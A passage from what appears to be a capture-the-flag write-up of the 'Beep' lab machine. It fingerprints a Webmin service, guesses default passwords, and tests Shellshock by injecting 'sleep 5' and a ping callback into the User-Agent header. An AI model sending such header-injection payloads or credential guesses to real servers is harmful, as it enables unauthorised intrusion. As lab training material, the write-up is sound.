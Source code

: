```shell
[root@beep ~]#
```

## Webmin - TCP 10000

Webmin is being hosted on TCP 10000 with SSL:

```shell
❯ curl -Isk "http://10.10.10.7:10000/"
HTTP/1.0 200 Bad Request
Server: MiniServ/1.570
Date: Wed, 22 Dec 2021 23:33:57 GMT
Content-type: text/html; Charset=iso-8859-1
Connection: close

❯ curl -Isk "https://10.10.10.7:10000/"
HTTP/1.0 200 Document follows
Date: Wed, 22 Dec 2021 23:34:04 GMT
Server: MiniServ/1.570
Connection: close
Set-Cookie: testing=1; path=/; secure
pragma: no-cache
Expires: Thu, 1 Jan 1970 00:00:00 GMT
Cache-Control: no-store, no-cache, must-revalidate
Cache-Control: post-check=0, pre-check=0
Content-type: text/html; Charset=iso-8859-1
```

Webmin is a web interface for managing Unix systems. I guess some basic passwords like root / root, but no success.

## Shellshock [Path #3]

Whenever there is CGI or a Script in a web application, it is good to try to test ShellShock. To test it, I will open burpsuite and send the login request to Repeater and replace the User-Agent header with the ShellShock exploit string ``() { :; };[cmd]``, starting with a 5 second sleep:

```http
User-Agent: () { :; };sleep 5
```

If we receive a reponse in 5 seconds then it works and that will confirm that is vulnerable to shellshock. Let's try to ping ourselves back.

Setup a listener on ICMP:

```shell
sudo tcpdump -ni tun0 icmp
```

Create a single ping request with `-c 1`:

```http
User-Agent: () { :; };ping -c 1 10.10.16.3
```
